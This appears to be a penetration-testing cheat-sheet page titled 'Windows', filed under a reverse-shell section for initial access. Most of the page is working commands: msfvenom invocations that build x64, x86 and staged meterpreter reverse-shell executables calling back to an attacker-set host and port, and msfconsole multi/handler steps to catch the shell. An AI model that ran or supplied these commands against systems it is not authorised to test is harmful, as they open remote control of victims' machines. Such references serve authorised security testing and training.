 ```yaml
---
title: Windows
parent: Shell (Reverse/Others)
grand_parent: Exploit / Initial Access
layout: default
nav_order: 5
---
```


64 bit:\
`msfvenom --platform Windows -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

32 bit:\
`msfvenom --platform Windows -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

If shell drops immediately, consider using a staged shell.

Staged:\
`msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe`

Staged need to serve stage payload using msfvenom:\
`msfconsole -q`\
`use multi/handler`\
`set payload windows/x64/meterpreter/reverse_https`\
`set lhost IP`\
`set lport PORT`\
`exploit`
